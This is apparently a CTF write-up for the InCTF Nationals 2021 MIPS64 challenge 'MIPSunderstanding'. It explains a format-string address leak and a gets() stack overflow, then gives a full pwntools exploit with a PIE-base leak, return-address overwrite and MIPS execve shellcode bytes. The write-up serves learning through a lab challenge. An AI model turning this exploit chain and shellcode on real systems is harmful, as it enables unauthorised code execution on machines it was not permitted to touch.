 ```yaml
---
title: InCTF Nationals 2021 MIPSunderstanding writeup
date: 2022-01-10
postLayout: simple
tags:
- "linux"
- "ctf"
- "mips"
---
```


![](https://i.imgur.com/qUtdCzM.png "MIPSunderstanding")

# Checksec

<pre>
    Arch:     mips64-64-little
    RELRO:    <font color="#FD5FF1">No RELRO</font>
    Stack:    <font color="#FD5FF1">No canary found</font>
    NX:       <font color="#87C38A">NX enabled</font>
    PIE:      <font color="#87C38A">PIE enabled</font>
    RWX:      <font color="#FD5FF1">Has RWX segments</font>
</pre>

# Overview

```yaml
chall: ELF 64-bit LSB pie executable, MIPS, MIPS-III version 1 (SYSV), dynamically linked, with debug_info, not stripped
```

It's an easy challenge. Lets open the binary in ghidra and analyse the binary. Well there's alot of junk code in it so ill straight up show you the `thiago` and `keita` function.

## keita

![](https://imgur.com/uhEsnyT.png)

## thiago

![](https://imgur.com/jcPHCE5.png)

So there are two bugs here.

1. Format string bug for Information disclosure bug. We control the first parameter passed to printf and we can use this bug to leak the address where the binary is being loaded and bypass ASLR. 
2. A stack buffer overflow bug because of using the gets function to read input.

Now lets dive into exploitation. But the most important part is to setup an debug environment for mips.

# Setting up the debug environment

I always use this template given by [X3eRo0](https://twitter.com/X3eRo0) to debug different arch pwn challenges

```python
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfinit

from rootkit import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall')
context.arch = 'mips'
context.bits = 64
context.endian = 'little'
context.terminal = ["tilix","-a","session-add-right","-e"]
context.delete_corefiles = True
context.rename_corefiles = False

gdbscript = '''
target remote 0.0.0.0:1324
'''
exploit=b""
if args.GDB:
    io = process(["./qemu-mips64el", "-g", "1324", exe.path])
    if os.fork() == 0:
        a = open("/tmp/gdb.gdb", "w")
        a.write(gdbscript)
        a.close()
        cmd = " ".join(context.terminal) + " gdb-multiarch %s -x /tmp/gdb.gdb" % exe.path
        os.system(cmd)
        os.kill(os.getpid(), 9)

else:
    io=remote("gc1.eng.run", "32113")
io.interactive()
```

so with this `expl.py` you can debug the pwn challenge easily.

![debug-setup](https://imgur.com/arvqUwR.png)
Also one more thing to mention here

```yaml
# gef checksec command inside qemu
gef➤  checksec
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```

**NX is actually <span style={{ color: 'red' }}>disabled</span> inside qemu**. To enable NX they have to patch the qemu binary. Also use gdb-gef instead of pwndbg because pwndbg has alot of issues when it comes to weird architectures.

Lets start to build exploit.

# Exploit

1. Use the `keita` function to leak pie address
2. Use the `thiago` function to overflow the stack and return to your shellcode

```python expl.py https://raw.githubusercontent.com/4n0nym4u5/CTF-Writeups/main/MIPSunderstanding/exploit.py expl.py
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-

from rootkit import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall', checksec=False)
context.arch = 'mips'
context.bits = 64
context.endian = 'little'
context.terminal = ["tilix","-a","session-add-right","-e"]
context.delete_corefiles = True
context.rename_corefiles = False

gdbscript = '''
target remote 0.0.0.0:1324
'''
exploit="A"*512
if args.GDB:
    io = process(["./qemu-mips64el", "-g", "1324", exe.path])
    if os.fork() == 0:
        a = open("/tmp/gdb.gdb", "w")
        a.write(gdbscript)
        a.close()
        cmd = " ".join(context.terminal) + " gdb-multiarch %s -x /tmp/gdb.gdb" % exe.path
        os.system(cmd)
        os.kill(os.getpid(), 9)

else:
    io = process(["./qemu-mips64el", exe.path])

reu(b"+---------------------------------------+\n")
reu(b"+---------------------------------------+\n")
sl(b"A")
sleep(5)
reu(b"Enter the price you are willing to offer !!\n")
sl(b"%1$p")
sleep(5)
main=int(GetInt()[0])-0x18240b4
exe.address = main-exe.sym.main
shellcode_addr=exe.address+0x1827d80+0x30
info(f"Pie base : {hex(exe.address)}")
info(f"Shellcode: {hex(shellcode_addr)}")
sl(b"1")
re()
sl(b"C")
padding=b"A"*32
rop = flat([
    padding,
    0xdeadbeef,
    exe.address+0x1827d80,
])
sleep(5)
re()
shellcode =  b""
shellcode += b"\x62\x69\x0c\x3c"
shellcode += b"\x2f\x2f\x8c\x35"
shellcode += b"\xf4\xff\xac\xaf"
shellcode += b"\x73\x68\x0d\x3c"
shellcode += b"\x6e\x2f\xad\x35"
shellcode += b"\xf8\xff\xad\xaf"
shellcode += b"\xfc\xff\xa0\xaf"
shellcode += b"\xf4\xff\xa4\x67"
shellcode += b"\xff\xff\x05\x28"
shellcode += b"\xff\xff\x06\x28"
shellcode += b"\xc1\x13\x02\x24"
shellcode += b"\x0c\x01\x01\x01"

# https://www.exploit-db.com/exploits/45287

sl(rop + b"\x00\x00\x00\x00"*32 + shellcode) # \x00\x00\x00\x00 is nops in mips64
reu(b"+---------------------------------------+\n")
sleep(5)
io.interactive()
```

[![asciicast](https://asciinema.org/a/461708.svg)](https://asciinema.org/a/461708)

> InCTF&#123;w3_sh4ll_not_b3_m0v3D_132244345&#125;